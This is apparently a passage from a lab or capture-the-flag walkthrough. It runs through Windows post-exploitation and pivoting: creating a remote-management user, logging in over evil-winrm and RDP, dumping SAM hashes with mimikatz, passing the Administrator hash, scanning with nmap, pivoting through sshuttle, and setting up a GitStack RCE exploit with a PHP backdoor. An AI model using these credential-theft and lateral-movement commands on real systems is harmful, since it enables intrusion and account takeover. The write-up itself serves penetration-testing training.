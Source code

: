 ```shell
net localgroup "Remote Management Users" sv /add

#on attacker machine
#connect using evil-winrm to newly created user
evil-winrm -u sv -p Password3 -i 10.200.81.150

#we can also connect using RDP
xfreerdp /v:10.200.81.150 /u:sv /p:Password3 +clipboard /dynamic-resolution /drive:/home/sv/Tools,share

#in GUI, open cmd.exe as Administrator
#and run mimikatz.exe to dump hashes
\\tsclient\share\mimikatz64.exe
#loads mimikatz

privilege::debug

token::elevate

lsadump::sam

#in attacker machine
#use Administrator hash to connect via evil-winrm
evil-winrm -u Administrator -H <admin-hash-here> -i 10.200.81.150
```

* After uploading the ```nmap``` binary to target, we can scan the complete network.

* Now, ignoring the hosts ending in '.1' and '.250' according to given instructions, we have another 2 active hosts on the network - 10.200.81.100 and 10.200.81.150

* Scanning the two hosts that we found, 10.200.81.100 returns all ports as filtered.

* 10.200.81.150 has 3 open ports:

  * 80 - http
  * 3389 - ms-wbt-server
  * 5985 - wsman

* We can use pivoting technique with ```sshuttle``` to check the http service.

* After setting up the proxy using ```sshuttle```, we can access <http://10.200.81.150/>

* This page shows a 'Page Not Found' error; the page uses ```Django```, and it mentions the URL patterns 'registration/login/', 'gitstack/' and 'rest/'

* Checking ```gitstack``` shows that it is a Git server; using ```searchsploit``` we can see that this has RCE exploits.

* We can access the page <http://10.200.81.150/gitstack> - this contains a login page.

* We can try admin:admin as creds, but it does not work.

* We can attempt to use one of the RCE exploits we found earlier using ```searchsploit```.

* Configure the exploit and edit the IP field to '10.200.81.150'; also edit the backdoor file name to 'exploit-sv.php'.
